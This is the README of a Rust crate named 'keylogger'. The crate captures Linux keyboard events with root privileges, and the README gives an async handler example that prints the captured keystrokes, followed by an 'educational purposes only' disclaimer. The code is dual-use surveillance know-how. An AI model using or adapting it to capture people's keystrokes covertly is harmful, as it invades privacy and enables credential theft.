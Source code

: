 # Keylogger

This crate provides the necessary scaffolding for handling keyboard input events on Linux.

The keystrokes are captured by the `Keylogger`, which needs to be initialized
with a `KeyEventHandler`. The `KeyEventHandler` receives the captured
`KeyEvent`s and must decide how to handle them.

# Example

A simple example that prints the captured keystrokes to stdout. Note the
keylogger needs to run with root privileges.

 ```rust
 use async_trait::async_trait;
 use keylogger::{KeyEvent, KeyEventCause, KeyEventHandler, Keylogger, KeyloggerError};
 use std::path::Path;

 struct Logger;

 #[async_trait]
 impl KeyEventHandler for Logger {
     async fn handle_events(&self, kb_device: &Path, kb_name: &str, events: Vec<KeyEvent>) {
         println!("[{} @ {}]: ev={:?}", kb_name, kb_device.display(), events);
     }
 }

 #[tokio::main]
 async fn main() -> Result<(), KeyloggerError> {
     let keylogger = Keylogger::new(Logger)?;
     keylogger.capture().await?;

     Ok(())
 }
 ```

# Disclaimer

This is intended for educational purposes only. Developers assume no liability
and are not responsible for any misuse or damage caused by this program.
